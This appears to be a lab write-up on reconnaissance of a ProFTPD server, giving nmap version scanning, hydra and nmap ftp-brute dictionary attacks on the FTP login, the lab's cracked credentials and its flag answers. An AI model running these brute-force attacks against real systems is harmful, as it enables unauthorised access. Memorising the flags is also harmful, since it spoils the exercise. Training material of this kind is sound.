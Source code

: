 # ProFTP Recon: Basics

ProFTP is an ftp server broadly used in linux, and the objective of this lab is to enumerate some information about the ftp server.

1. What is the version of FTP server?

- You can easily do this with nmap `nmap x.x.x.x -p 21 -sV -O` assuming you have already discovered an ftp service running in the machine. The version of the FTP server is: ProFTPD 1.3.5a.

2. Use the username dictionary /usr/share/metasploit-framework/data/wordlists/common_users.txt and password dictionary /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt to check if any of these credentials work on the system. List all found credentials.

- First try connecting to the ftp server using anonymous login.
- If nothing can be obtained out of it, let's use hydra to perform a dictionary attack in the ftp login like this: `hydra -L /path/to/username/list -P /path/to/password/list x.x.x.x <protocol>`. **Note**: `-P` is for a list of passwords.

We got quite a list from the dictionary attack:

[21][ftp] host: 192.124.161.3   login: sysadmin   password: 654321
[21][ftp] host: 192.124.161.3   login: rooty   password: qwerty
[21][ftp] host: 192.124.161.3   login: demo   password: butterfly
[21][ftp] host: 192.124.161.3   login: auditor   password: chocolate
[21][ftp] host: 192.124.161.3   login: anon   password: purple
[21][ftp] host: 192.124.161.3   login: administrator   password: tweety
[21][ftp] host: 192.124.161.3   login: diag   password: tigger


3. Find the password of user “sysadmin” using nmap script.

- We can brutforce a login using nmap scripts. Try it out with a list of users like this: `nmap x.x.x.x --script ftp-brute --script-args userdb=/path/to/user/list -p 21`. We use port 21 as we only target the discovered ftp port.
- The password for sysadmin is: 654321.

4. Find seven flags hidden on the server.

- Secret for sysadmin: 260ca9dd8a4577fc00b7bd5810298076
- Secret for rooty: e529a9cea4a728eb9c5828b13b22844c
- Secret for demo: d6a6bc0db10694a2d90e3a69648f3a03
- Secret for auditor: 098f6bcd4621d373cade4e832627b4f6
- Secret for anon: 1bc29b36f623ba82aaf6724fd3b16718
- Secret for administrator: 21232f297a57a5a743894a0e4a801fc3
- Secret for diag: 12a032ce9179c32a6c7ab397b9d871fa